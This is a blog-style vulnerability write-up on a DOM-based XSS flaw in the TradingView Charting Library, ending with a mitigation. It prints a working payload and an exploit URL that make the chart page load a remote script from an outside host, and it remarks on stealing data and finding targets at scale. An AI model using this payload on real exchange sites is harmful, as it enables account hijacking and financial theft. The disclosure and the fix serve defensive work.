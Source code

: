 ```yaml
---
layout: post
title: "TradingView Charting Library XSS Vulnerablity"
excerpt: "TradingView Charting Library XSS Vulnerablity, high impact"
categories: [Vulnerablity]
comments: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'Vulnerablity', 'xss', 'TradingView']
image:
  feature: tradingview_xss/xss_cover.png
  show: true
---
```


## 0x00 Background
TradingView has popular charting libraries which are used in many online trading platforms for stocks or cryptocurrencies. This vulnerability is a fairly new XSS vulnerability. This vulnerability could bypass Cloudflare or other defense mechanism and cause financial losses due to account request forgery or malicious manipulation. We are going to talk about the vuln and the mitigation.

## 0x01 Vulnerability and Attack
Since TradingView's library is widely-used, we can easily find a test target amongst stock exchange or cryptocurrency exchange platforms. Now let's try to trigger the alert dialog.

After a little bit trying and looking at the code, we have the payload.

Payload
```
#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

Constructed URL
```
https://www.xxxxx.com/static/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

<br>

![alert][1]{:class="post-image center"}


Minimum required set of parameters: [**disabledFeatures**, **enabledFeatures**, **indicatorsFile**]

After all, it turned out to be easy to understand the vulnerability. Let's look at library.xxxx.js under ```charting_library/static/bundles/```

```javascript
D ? $.getScript(urlParams.indicatorsFile).done(function() {...})
```

![alert][2]{:class="post-image center"}


Looks familiar? I believe that you probably have seen jQuery's ```$.getScript$``` many times either when programming or digging bugs. So the core code for this function is essentially...

![jquery_getscript][3]{:class="post-image center"}

According to the source code, we can dynamically create a script tag and load a remote js file. 

Then, why are ```disabledFeatures``` and ```enabledFeatures``` also needed for the payload? We can tell from the code... that there will be an exception thrown if one of these parameters is not provided.

![two_params][4]{:class="post-image center"}

Therefore, the final payload was the one mentioned before.


## 0x03 Vuln Impact 
As we can see, this XSS vuln is a DOM-based XSS, so it means that it can also bypass browsers' XSS protection. The advantage of DOM-based XSS is that it modifies the DOM “environment” in the victim’s browser used by the original client-side script, which means it won't even go through the service's server end for logging purpose or server-side protection. 

Furthermore, the domain that this XSS is triggered is not separated from the core domain where the sensitive data is contained. So, the exploit is conveniently simple to be extraordinarily malicious lol. For example, think of using $ directly could steal some sensitive data or something advanced there.

If someone is experienced in attacking, then he/she knows how to find targets at scale.


## 0x04 Mitigation
In the file we have seen, ```/charting_library/static/bundles/library.19c99ed5d0307c67f071.js```, hardcode getScript so that it takes no files.

```getScript(urlParams.indicatorsFile)``` --> ```getScript("")```



[1]: {{ "/assets/upload/images/tradingview_xss/alert.png" | absolute_url }}
[2]: {{ "/assets/upload/images/tradingview_xss/indicatorsFile_code.png" | absolute_url }}
[3]: {{ "/assets/upload/images/tradingview_xss/getscript.png" | absolute_url }}
[4]: {{ "/assets/upload/images/tradingview_xss/two_params.png" | absolute_url }}
